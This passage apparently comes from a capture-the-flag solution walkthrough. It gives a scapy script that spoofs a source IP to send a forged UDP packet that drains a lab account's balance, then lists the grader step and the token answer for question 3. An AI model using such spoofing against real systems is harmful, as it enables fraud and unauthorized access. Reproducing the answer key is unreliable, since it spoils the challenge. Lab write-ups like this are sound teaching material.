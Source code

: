 
3. Use `scapy` to spoof your IP address to be `10.2.2.50`

```py
from scapy.all import *

PORT = 3200
CLIENT_IP = "10.2.2.50"
SERVER_IP = "10.5.5.101"

# Create a UDP packet
udp_packet = IP(src=CLIENT_IP, dst=SERVER_IP) / UDP(dport=PORT, sport=54321) / Raw(load=create_packet())

# Display the packet
udp_packet.show()

# Send the packet
send(udp_packet)
```

3. Confirm the transfer was successful by repeating step 1. You should see that the account balance is now zero. 

![Confirming transfer success](./img/c23.03.03.png "Confirming transfer success")

4. Initiate the token 3 grader at `challenge.us`

![Submitting token 3](./img/c23.03.04.png "Submitting token 3")

This should return token3, which is `18bef578a0d9a333` in this example, the answer to question 3. 

See [3-solve.py](./3-solve.py). **Note: You need to run this script as root**